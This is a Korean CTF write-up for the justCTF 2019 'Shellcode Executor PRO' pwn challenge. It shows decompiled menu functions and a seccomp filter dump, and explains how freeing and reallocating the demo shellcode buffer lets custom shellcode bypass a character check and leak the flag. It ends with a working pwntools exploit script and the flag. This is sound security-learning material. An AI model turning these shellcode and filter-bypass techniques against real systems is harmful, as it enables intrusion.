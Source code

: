 ```yaml
---
title: "2019 just CTF Shellcode Executor PRO"
date: 2020-1-15
tags: [just]
categories: [just]
---
```




1번 메뉴

입력받은 걸 `verifyUrl` 함수에서 xor 1한 값이 9보다 작아야한다. 안 그러면 exit해준다.

```c
int downloadShellcode()
{
  char *s; // ST18_8

  s = malloc(0x400uLL);
  printf("Enter url: ");
  fgets(s, 1024, stdin);
  if ( verifyUrl(s) ^ 1 )
  {
    puts("Your url contains incorrect characters, this incident will be reported");
    exit(-1);
  }
  return puts("For this feature you need to purchase the full version of our product");
}
```

2번 메뉴

`demo_shellcode` 라는 영역을 free해줄 수 있다.

```c
void __fastcall deleteShellcode(__int64 a1)
{
  if ( *a1 )
  {
    puts("This shellcode has already been deleted");
  }
  else
  {
    *a1 = 1;
    free(*(a1 + 8));
    free(*(a1 + 16));
  }
}
```

3번 메뉴

쉘코드를 `restrictAccess` 함수 bypass하면 실행해준다.

```c
int __fastcall executeShellcode(__int64 a1)
{
  void *dest; // [rsp+18h] [rbp-8h]

  printf("Executing shellcode from %s\n", *(a1 + 8));
  dest = mmap(0LL, 0x400uLL, 7, 34, -1, 0LL);
  memcpy(dest, *(a1 + 16), 0x400uLL);
  if ( restricted != 1 )
    restrictAccess();
  puts("====================================");
  (dest)("====================================");
  puts("====================================");
  return munmap(dest, 0x400uLL);
}
```

`restrictAccess` 함수를 보면 seccomp가 걸려있는데 read, write, mmap, munmap .. 등등만 허용해놨다.

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x00000000  if (A == read) goto 0012
 0006: 0x15 0x05 0x00 0x00000001  if (A == write) goto 0012
 0007: 0x15 0x04 0x00 0x00000009  if (A == mmap) goto 0012
 0008: 0x15 0x03 0x00 0x0000000b  if (A == munmap) goto 0012
 0009: 0x15 0x02 0x00 0x0000000f  if (A == rt_sigreturn) goto 0012
 0010: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0012
 0011: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

`demo_shellcode` 라는 영역을 3번 메뉴에서 실행시켜주기 때문에 이곳에 쉘코드를 넣어주면 된다. 근데 밑에 `The flag will be here` 이라는 문구가 있다. 여기에 플래그가 있어서 읽어오면 될거다. 

![](https://user-images.githubusercontent.com/32904385/72424712-c3229880-37c9-11ea-9ce9-5d58e2ef305a.png)

익스는 write로 flag 영역을 긁어오면 된다. 근데 우선 `verifyUrl` 함수를 우회해줘야하는데 `\x00` 을 넣어서 우회하려고 했는데 쉘코드가 실행이 안된다.그래서 `xor al,0 ` 으로 우회해주면 된다.

익스 순서는 `demo_shellcode` 영역을 free해주고 `downloadShellcode` 함수에서 `write(1,rip+0x70,0xff)` 해준 후에 입력해주면 된다. `rip+0x70`은 flag위치다. 

마지막으로 `executeShellcode` 함수 실행해주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./shellcodeexecutor')
#p = process('./shellcodeexecutor')
p = remote('46.101.173.184', 1446)

payload = '''
xor al, 0
mov rdi, 1
lea rsi, [rip+0x70]
mov rdx, 0xff
mov rax, 1
syscall
'''

p.sendlineafter('>','2') # Delete shellcode -> Demo Free
p.sendlineafter('>','1') # Download shellcode from url -> allocate
p.sendlineafter(':',asm(payload)) # verifyUrl bypass
p.sendlineafter('>','3') # executeShellcode -> seccomp bypass

p.interactive()
```

**FLAG : `justCTF{f0r_4_b3tt3r_fl4g_purch4s3_th3_full_v3rsi0n_0f_0ur_pr0duct}`**